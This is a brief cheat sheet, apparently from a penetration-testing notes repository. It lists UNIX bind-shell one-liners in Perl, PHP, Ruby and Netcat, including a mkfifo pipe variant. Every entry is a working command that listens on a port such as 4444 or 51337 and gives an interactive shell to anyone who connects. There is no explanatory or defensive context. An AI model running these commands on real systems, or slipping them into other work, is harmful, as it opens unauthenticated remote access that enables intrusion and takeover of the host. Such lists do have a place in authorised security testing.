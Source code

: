# UNIX Bind Shells

- Perl

```bash
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

- PHP

```bash
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",4444);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

- Ruby

```bash
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

- Netcat

```bash
nc -nlvp 4444 -e /bin/bash
```

- Netcat \(OpenBSD\)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 4444 >/tmp/f
```

